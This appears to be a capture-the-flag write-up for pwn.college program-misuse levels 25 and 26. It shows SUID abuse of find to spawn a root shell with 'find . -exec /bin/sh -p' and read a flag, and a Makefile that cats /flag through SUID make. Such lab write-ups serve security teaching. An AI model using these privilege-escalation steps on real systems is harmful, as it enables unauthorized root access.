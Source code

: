 ```
hacker@program-misuse~level25:/$ /challenge/babysuid_level25 
Welcome to /challenge/babysuid_level25!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/find.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level25) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/find!
```

```
hacker@program-misuse~level25:~$ find . -exec /bin/sh -p \; 
#
```

```
# cat /flag
cat: /flagcat: No such file or directory
pwn.college{UsQ6vfq4dFoZ1Q5jlesvmOxUwqA.01N2EDL4ITM0EzW}
```

&nbsp;

## level 26

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level26:/$ /challenge/babysuid_level26 
Welcome to /challenge/babysuid_level26!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/make.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level26) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/make!
```

The  `make`  utility will determine automatically which pieces of a large program need to be recompiled, and issue the commands to recompile them.

Any command we specify within the `Makefile` is executed.

```
all:
	cat /flag
```

In order to execute the `Makefile`, we have to run the `make` command in the same directory as the file.
